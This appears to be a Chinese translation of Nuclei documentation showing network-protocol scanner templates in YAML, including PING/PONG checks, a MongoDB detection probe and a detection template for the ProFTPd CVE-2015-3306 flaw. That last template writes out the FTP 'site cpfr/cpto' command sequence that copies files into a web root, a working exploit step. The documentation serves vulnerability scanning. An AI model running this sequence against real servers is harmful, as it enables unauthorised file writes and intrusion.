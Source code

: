 ```yaml
---
title: "网络协议示例"
description: "Nuclei 模板中的网络协议示例"
---
```


## 基础网络请求

此模板连接到网络服务，发送一些数据并从响应中读取4字节。运行匹配器来识别有效响应，在本例中为 `PONG`。

```yaml
id: basic-network-request

info:
  name: Basic Network Request  # 基础网络请求
  author: pdteam
  severity: info  # 信息级别

tcp:
  - host: 
      - "{{Hostname}}"
    inputs:
      - data: "PING\r\n"
    read-size: 4
    matchers:
      - type: word
        part: data
        words:
          - "PONG"
```

## TLS 网络请求

与上述模板类似，但到服务的连接启用了 TLS。

```yaml
id: basic-tls-network-request

info:
  name: Basic TLS Network Request  # 基础 TLS 网络请求
  author: pdteam
  severity: info  # 信息级别

tcp:
  - host: 
      - "tls://{{Hostname}}"
    inputs:
      - data: "PING\r\n"
    read-size: 4
    matchers:
      - type: word
        part: data
        words:
          - "PONG"
```

## 十六进制输入请求

此模板连接到网络服务，向服务器发送以十六进制编码的数据，并从响应中读取4字节。运行匹配器来识别有效响应，在本例中为 `PONG`。这里的匹配词是使用匹配器的 `encoding: hex` 选项以十六进制编码的。

```yaml
id: hex-network-request

info:
  name: Hex Input Network Request  # 十六进制输入网络请求
  author: pdteam
  severity: info  # 信息级别

tcp:
  - host: 
      - "{{Hostname}}"
    inputs:
      - data: "50494e47"
        type: hex
      - data: "\r\n"
        
    read-size: 4
    matchers:
      - type: word
        part: data
        encoding: hex
        words:
          - "504f4e47"
```

## 输入表达式

网络中指定的输入也支持 DSL 辅助表达式，因此您可以使用各种 nuclei 辅助函数创建自己的复杂输入。以下模板是使用 `hex_decode` 函数通过网络发送解码输入的示例。

```yaml
id: input-expressions-mongodb-detect

info:
  name: Input Expression MongoDB Detection  # 输入表达式 MongoDB 检测
  author: pd-team
  severity: info  # 信息级别
  reference: https://github.com/orleven/Tentacle

tcp:
  - inputs:
      - data: "{{hex_decode('3a000000a741000000000000d40700000000000061646d696e2e24636d640000000000ffffffff130000001069736d6173746572000100000000')}}"
    host:
      - "{{Hostname}}"
    read-size: 2048
    matchers:
      - type: word
        words:
          - "logicalSessionTimeout"
          - "localTime"
```

## 多步骤请求

最后一个示例是 proFTPd 中的 RCE，如果存在漏洞，允许在服务器上的任何目录中放置任意文件。检测过程涉及每次运行 nuclei 时使用 `{{randstr}}` 生成随机字符串，并向易受攻击的服务器发送多行 FTP 输入。最后，通过响应中存在 `Copy successful` 来检测成功匹配。

```yaml
id: CVE-2015-3306

info:
  name: ProFTPd RCE  # ProFTPd 远程代码执行
  author: pd-team
  severity: high  # 高危级别
  reference: https://github.com/t0kx/exploit-CVE-2015-3306
  tags: cve,cve2015,ftp,rce

tcp:
  - inputs:
      - data: "site cpfr /proc/self/cmdline\r\n"
        read: 1024
      - data: "site cpto /tmp/.{{randstr}}\r\n"
        read: 1024
      - data: "site cpfr /tmp/.{{randstr}}\r\n"
        read: 1024
      - data: "site cpto /var/www/html/{{randstr}}\r\n"
    host:
      - "{{Hostname}}"
    read-size: 1024
    matchers:
      - type: word
        words:
          - "Copy successful" 
```